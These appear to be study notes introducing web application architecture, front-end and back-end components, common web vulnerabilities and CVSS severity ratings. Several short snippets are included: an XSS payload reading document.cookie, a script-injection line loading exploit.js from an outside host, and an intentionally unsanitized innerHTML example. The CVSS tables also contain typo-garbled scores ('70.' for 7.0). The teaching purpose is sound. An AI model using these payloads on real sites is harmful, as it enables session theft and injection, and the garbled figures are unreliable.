




Web Applications
... are interactive applications that run on webservers. Web applications usually adopt a client-server architecture to run and handle interactions. They typically have front end components that run on the client-side and other back end components that run on the server-side.
Web Apps vs. Websites
Traditional webistes were statically created to represent specific information, and this information would not change with our interactions (also known as Web 1.0).
Most websites run web applications (Web 2.0) presenting dynamic content based on user interaction. Another significant difference is that web aaplications are fully functional and can perform various functionalities for the end-user, while websites lack this type of functionality.
Web App Layout
... consists of:
- Web Application Infrastructure
- describes the structure of required components, such as the database, needed for the web application to function as intended
- Web Application Components
- the components that make up a web application represent all the components that the web application interacts with; divide into:
- UI/UX
- Client
- Server
- the components that make up a web application represent all the components that the web application interacts with; divide into:
- Web Application Architecture
- Architecture comprises all the relationships between the various web application components
Web Application Infrastructure
Client-Server
A server hosts the web app in a client-server model and distributes it to any clients to access it. In this model, web applications have two types of components, those in the front end, which are usually interpreted and executed on the client-side, and components in the back end, usually compiled, interpreted, and executed by the hosting server.

One Server
If any web application hosted on this server is compromised in this architecture, then all web applications' data will be compromised. This design represents an "all eggs in one basket" approach since any of the hosted web applications are vulnerable, the entire webserver becomes vulnerable.

Many Servers - One Database
This model separates the database onto its own database server and allows the applications' hosting server to access the database server to store and retrieve data. It can be seen as many-servers to one-database and one-server to one-database, as long as the database is separated on its own database server.

Many Servers - Many Databases
This model builds upon the Many Servers, One Database model. However, within the database server, each web application's data is hosted in a separate database. The web application can only access private data and only common data that is shared across the web applications. It is also possible to host each web application's database on its separate database server.

Web Application Components
- Client
- Server
- Webserver
- Web Application Logic
- Database
- Services
- 3rd Party Integration
- Web Application Integrations
- Functions (Serverless)
Web Application Architecture
The components of a web application are divided into three different layers:
| Layer | Description |
|---|---|
| Presentation Layer | consists of UI process components that enable communication with the application and the system can be accessed by the client via the web brwoser and are returned in the form of HTML,JavaScript, and CSS |
| Application Layer | ensures that all client requests are correctly processed various criteria are checked, such as authorization, privileges, and data passed on to the client |
| Data Layer | works closely with the application layer to determine exactly where the required data is stored and can be accessed |
Front End Components
HyperText Markup Language (HTML)
... is at the very core of any web page we see on the internet. It contains each page's basic elements, including titles, forms, images, and many other elements. The web browser, in turn, interprets these elements and displays them to the end-user.
An important concept to learn in HTML is URL encoding, or percent-encoding. For a browser to properly display a page's contents, it has to know the charset in use. In URLs, for example, browsers can only use ASCII encoding, which only allows alphanumerical characters and certain special characters. Therefore, all other characters outside of the ASCII character-set have to be encoded within a URL. URL encoding replaces unsafe ASCII characters with a % symbol followed by two hexadecimal digits.
Example:
| Character | Encoding |
|---|---|
| space | %20 |
| ! | %21 |
| " | %22 |
| # | %23 |
| $ | %24 |
| % | %25 |
| & | %26 |
| ' | %27 |
| ( | %28 |
| ) | %29 |
Cascading Style Sheets (CSS)
... is the stylesheet language used alongside HTML to format and set the style of HTML elements. Like HTML, there are several versions of CSS, and each subsequent version introduces a new set of capabilities that can be used for formatting HTML elements. Browsers are updated alongside it to support these new features.
Front End Vulns
Sensitive Data Exposure
... refers to the availability of sensitive data in clear-text to the end-user. This is usually found in the source of the web page or page source on the front end of web apps.
Example:
<form action="action_page.php" method="post">
<div class="container">
<label for="uname"><b>Username</b></label>
<input type="text" required>
<label for="psw"><b>Password</b></label>
<input type="password" required>
<!-- TODO: remove test credentials test:test -->
<button type="submit">Login</button>
</div>
</form>
</html>
HTML Injection
... occurs when unfiltered user input is displayed on the page. This can either be through retrieving previously submitted code, like retrieving a user comment from the back end database, or by directly displaying unfiltered user input through JavaScript on the front end.
If no input sanitization is in place, this is potentially an easy target for HTML Injection and Cross-Site Scripting (XSS) attacks.
Bad sanitization example:
<!DOCTYPE html>
<html>
<body>
<button onclick="inputFunction()">Click to enter your name</button>
<p id="output"></p>
<script>
function inputFunction() {
var input = prompt("Please enter your name", ""); // no sanitization
if (input != null) {
document.getElementById("output").innerHTML = "Your name is " + input; // no sanitization
}
}
</script>
</body>
</html>
Cross-Site Scripting (XSS)
... is very similar to HTML Injection. However, XSS involves the injection of JavaScript code to perform more advanced attacks on the client-side, instead of merely injecting HTML code. There are three main types of XSS:
| Type | Description |
|---|---|
| Reflected XSS | occurs when user input is displayed on the page after processing |
| Stored XSS | occurs when user input is stored in the back end database and then displayed upon retrieval |
| DOM XSS | occurs when user input is directly shown in the browser and is written to an HTML DOM object |
DOM XSS example:
#"><img src=/ onerror=alert(document.cookie)>
Cross-Site Request Forgery (CSRF)
... is caused by unfiltered user input. CSRF attacks may utilize XSS vulnerabilities to perform certain queries, and API calls on the web app that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.
Example:
"><script src=//www.example.com/exploit.js></script>
Many modern browsers have built-in anti-CSRF measures, which prevent automatically executing JavaScript code. Furthermore, many modern web apps have anti-CSRF measures, including certain HTPP headers and flags that can prevent automated requests.
Back End Components
Back End Servers
The back end server contains the other three back end components:
- Web Server
- Database
- Development Framework
Popular stack-combinations:
| Combination | Components |
|---|---|
| LAMP | Linux, Apache, MySQL, PHP |
| WAMP | Windows, Apache, MySQL, PHP |
| WINS | Windows, IIS, .NET, SQL Server |
| MAMP | macOS, Apache, MySQL, PHP |
| XAMP | Cross-Platform, Apache, MySQL, PHP/PERL |
Web Servers
... are applications that run on the back end server, which handle all of the HTPP traffic from the client-side browser, routes it to the requested pages, and finally responds to the client-side browser. Web servers usually run on TCP ports 80 or 443, and are responsible for connecting end-users to various parts of the web application, in addition to handling their various responses.
Common web servers:
- Apache
- NGINX
- IIS
Databases
... are used by web apps to store various content and information related to the web app. This can be core web app assets like images and files, web app content like posts and updates, or user data like username and passwords.
Relational (SQL)
... store their data in tables, rows, and columns. Each table can have unique keys, which can link tables together and create relationships between tables.
Common relational DBs:
- MySQL
- MSSQL
- Oracle
- PostgreSQL
Non-relational (NoSQL)
... does not use tables, rows, columns, primary keys, relationships, or schemas. Instead, a NoSQL database stores data using various storage models, depending on the type of data stored.
Common storage models for NoSQL:
- Key-Value
- Document-Based
- Wide-Column
- Graph
Development Framework & Application Programming Interfaces (APIs)
Development Framework
Development frameworks help in developing core web application files and functionality.
Common web development frameworks:
- Laravel
- Express
- Django
- Rails
APIs
An important aspect of back end web application development is the use of Web APIs and HTPP Request parameters to connect the front end and the back end to be able to send data back and forth between front and back end components and carry out various functions within the web app.
Web APIs
Web APIs allow remote access to functionality on back end components. Web APIs are usually accessed over the HTTP protocol and are usually handled and translated through web servers.
Common web API standards:
- Representational State Transfer (REST)
- Simple Objects Access (SOAP)
Back End Vulns
Broken Access Control
... refers to vulnerabilities that allow attackers to bypass authentication functions. For example, this may allow attacker to login wihtout having a valid set of credentials or allow a normal user to become an administrator without having the privileges to do so.
Malicious File Upload
If the web app has a file upload feature and does not properly validate the uploaded files, you may upload a malicious script, which will allow us to execute commands on the remote server.
Command Injection
Many web apps execute local OS commands to perform certain processes. For example, a web app may install a plugin of your choosing by executing an OS command that downloads that plugin, using the plugin name provided. If not properly filtered and sanitized, attackers may be able to inject antoher command to be executed alongside the originally intended command, which allows them to directly execute commands on the back end server and gain control over it.
SQL Injection (SQLi)
Similar to a Command Injection vulnerability, this vulnerability may occur when the web app executes a SQL query, including a value taken from user-supplied input.
Public Vulnerabilities
... are sometimes shared and can be assigned a Common Vulnerabilities and Exposures (CVEs) record. They can be found at:
Common Vulnerability Scoring System (CVSS)
... is an open-source industry standard for assessing the severity of security vulnerabilities. This scoring system is often used as a standard measurement for organizations and governments that need to produce accurate and consistent severity scores for their systems' vulnerabilities.
CVSS V2.0 Rating
| Severity | Base Score Rating |
|---|---|
| Low | 0.0 - 3.9 |
| Medium | 4.0 - 6.9 |
| High | 70. - 10.0 |
CVSS V3.0 Rating
| Severity | Base Score Rating |
|---|---|
| None | 0.0 |
| Low | 0.1 - 3.9 |
| Medium | 4.0 - 6.9 |
| High | 70. - 8.9 |
| Critical | 9.0 - 10.0 |